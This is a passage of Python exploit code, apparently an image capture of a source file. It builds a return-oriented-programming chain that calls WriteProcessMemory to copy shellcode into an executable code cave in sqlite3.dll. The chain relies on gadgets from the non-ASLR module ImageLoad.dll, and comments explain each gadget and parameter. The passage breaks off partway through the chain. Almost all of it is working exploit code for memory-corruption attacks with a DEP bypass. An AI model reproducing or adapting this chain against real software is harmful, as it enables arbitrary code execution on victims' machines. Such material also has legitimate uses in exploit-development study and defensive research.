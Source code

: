 ```python
crash += struct.pack('<L', 0x1004d1ec)    # Pointer to kernel32!GetStartupInfoA (no pointers from IAT directly to kernel32!WriteProcessMemory, so loading pointer to kernel32.dll and compensating later.)
crash += struct.pack('<L', 0x61c72530)    # Return address parameter placeholder (where function will jump to after execution - which is where shellcode will be written to. This is an executable code cave in the .text section of sqlite3.dll)
crash += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
crash += struct.pack('<L', 0x61c72530)    # lpBaseAddress = pointer to where shellcode will be written to. (0x61C72530 is an executable code cave in the .text section of sqlite3.dll) 
crash += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
crash += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
crash += struct.pack('<L', 0x1004D740)    # lpNumberOfBytesWritten = writable location (.idata section of ImageLoad.dll address in a code cave)

# Starting with lpBuffer (shellcode location)
# ECX currently points to lpBuffer placeholder parameter location - 0x18
# Moving ECX 8 bytes before EAX, as the gadget to overwrite dword ptr [ecx] overwrites it at an offset of ecx+0x8
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001dacc)    # inc ecx ; clc ; mov edx, dword [ecx-0x04] ; ret: ImageLoad.dll (non-ASLR enabled module)

# Pointing EAX (shellcode location) to data inside of ECX (lpBuffer placeholder) (NOPs before shellcode)
crash += struct.pack('<L', 0x1001fce9)    # pop esi ; add esp + 0x8 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0xfffffd44)    # Shellcode is about negative 0xfffffd44 bytes away from EAX
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget
crash += struct.pack('<L', 0x10022f45)    # sub eax, esi ; pop edi ; pop esi ; ret
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget
```